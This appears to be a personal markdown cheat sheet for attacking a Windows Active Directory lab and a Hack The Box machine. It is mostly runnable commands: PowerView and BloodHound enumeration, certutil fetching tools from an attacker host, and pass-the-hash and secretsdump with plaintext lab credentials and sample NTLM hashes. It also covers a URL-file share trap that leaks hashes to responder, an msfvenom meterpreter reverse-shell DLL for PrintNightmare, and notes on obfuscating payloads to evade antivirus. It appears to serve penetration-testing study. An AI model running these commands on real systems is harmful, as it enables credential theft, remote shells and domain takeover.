 **1 Enum: Powerview & Enum**
**2 Enum: Bloodhound**
**3 PTH / Post Enum Attack**
**4 URL File Attacks**
**5 References**

---

## **1. Powerview.ps1:**

Place powerview.ps1 on normal W10 machine

`powershell -ep bypass #bypass execution policy`

cd to dir with powerview.ps1

`. .\Powerview.ps1 #runs shell - returns 0 output`

Enumerate W10 machine

```
Get-DomainPolicy
(Get-DomainPolicy)."system access" #PW/ACC info
Get-Netdomain
Get-Netdomaincontroller
Get-Netuser | select cn
Get-Netcomputer -fulldata
Get-Computerinfo #HW info
Get-Netgroup -groupname *admin* # admin group names
Get-Netgroupmember -groupname "Domain Admins"
Invoke-Sharefinder #show all shares
Get-NetGPO | select displayname, whenchanged
```

---

## **2. Bloodhound:**

```
apt install bloodhound`
sudo neo4j console
click link to open "localhost..."
default creds: neo4j:neo4j 
kali$ bloodhound && then login with new creds.
```

**Download Ingestor:**

W10 download sharphound.ps1
```
> powershell -ep bypass \
> . .\sharphound.ps1 \ 
> Invoke-BloodHound -collectionmethod All -Domain Carbon.local -Zipfilename File.zip \
```

**HTB:: (see IppSecRules**
Once creds are found: (IE: active.htb/(\)svc_tgs:GGPStillStandingstrong18)
    + obtain shell access w/ low level user: (Window10 box w/ openvpn, sharphound.ps1)
        `cmd> runas /netonly /user:active.htb\svc_tgs cmd #will run without Windows10 validation specifiy PW as well`
        New cmd prompt comes up with access to machine. see ![runas_cmd](Screenshots/runas_windows.png)    
    + Now because user(svc_tgs) has been authenticated: run bloodhound.
    + **See ![BH_DL_VIA_netonly](Screenshots/Bloodhound_DL.png)**
```
        kali# python3 -m http.server 8080        
        cmd> certutil -urlcache -f http://<attack-ip>:8080/SharpHound.exe SharpHound.exe
        || in browser: http://<attack-ip>:8080 && DL sharphound.exe there. 
``` 

   + Move bloodhound info to Kali machine:
   + Inspect with Neo4j on kali machine:
        See ![bloodhound.zip](Screenshots/create_bloodhound_zip.png)

move file.zip first onto baremetal Desktop then to kali VM.
#make sure sudo neo4j start && sudo bloodhound
import data :: enjoy



## **Attacking AD - Post-Compromise Attacks:**

## **3. Pass-The-Hash:**
```
apt install crackmapexec \ 
crackmapexec smb 192.168.86.0/24 -d carbon.local -u e.triage -p 'Password!1' \
```
![PTH_propanol_oxytocinDC_ethyl](Screenshots/Pass_Hash_e_triage.png)

`crackmapexec smb 192.168.86.0/24 -d carbon.local -u e.triage -p 'Password!1' --sam` \ 

![PTH_sam](Screenshots/PTH_sam.png) 

`psexec.py carbon.local/e.triage:'Password!1'@192.168.86.206` \

![psexec_loud_shell](Screenshots/psexec_shell_noisy.png) \ 

## **Secretsdump.py:**

`secretsdump.py carbon/e.triage:'Password!1'@192.168.86.206` \

![secrets](Screenshots/secrets_dump.png)

## **NTLM hash Example:**

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
Propylene  Malz:1001:aad3b435b51404eeaad3b435b51404ee:3d888ed3f1196c792588c37ddfd32746:::
Ethyl Triage:1001:aad3b435b51404eeaad3b435b51404ee:2d450bc49b158d89cc6ec49db47ba095:::
```
**You can pass NTLM hashes around but CANNOT pass NTLMv2 hashes**
        
**4.Example script:**

+ filename: @something.url #Try to accommodate to folder/user name
+ Placed in C:\Share
```
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\<attack-ip>\%USERNAME%.icon
IconIndex=1
```
+ `kali$ sudo responder -I eth0 -v`
+ Visit Share fold with domain admin
+ Creds obtained see ![URL_Attack](Screenshots/URL_Attack.png)
+ Also suspectable to ***relaying***

**5 PrintNightmare (CVE-2021-1675)::**
+ Check vuln:
```
$ rpcdump.py @192.168.86.205(DC) | egrep 'MS-RPRN|MS-PAR'::
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
***Vulnerable***

***Host dll***
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attack-ip> LPORT=5555 -d dll > shell.dll
$ msfconsole use multi/handler set lhost <attack-ip> LPORT=5555 setpayload windows/x64/meterpreter/reverse_tcp run

***Setup file share***
smbshare.py share 'pwd' (share on present working dir)
***setup UN&PW***
```
+ TODO:: obfuscate .dll for AV bypassing. Try:: [obsfucar](https://medium.com/@s961441/obfuscate-your-application-dll-files-with-obfuscar-a60cb950a9bb)

**6 Mikikatz::**
+Post exploitation of DC
+Mimikatz needs to be on DC
+TODO obfuscate payloads


---
## **References:**
```
[log4j_notice_devs](https://community.neo4j.com/t/log4j-cve-mitigation-for-neo4j/48856)\
[powerview.ps1_GH](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerView)\
[hacktricks_BH](https://book.hacktricks.xyz/windows/active-directory-methodology/bloodhound)\
[bloodhound_GH](https://github.com/BloodHoundAD)\
[sharphound.ps1_GH](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1)
[Ippsec_rules](https://www.youtube.com/watch?v=jUc1J31DNdw)
[URL_attack_writeable_share](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#scf-and-url-file-attack-against-writeable-share)
[CVE-2021-1675_1](https://github.com/cube0x0/CVE-2021-1675)
[CVE-2021-1675_2](https://github.com/calebstewart/CVE-2021-1675)
[Mimikatz](https://github.com/gentilkiwi/mimikatz)
```
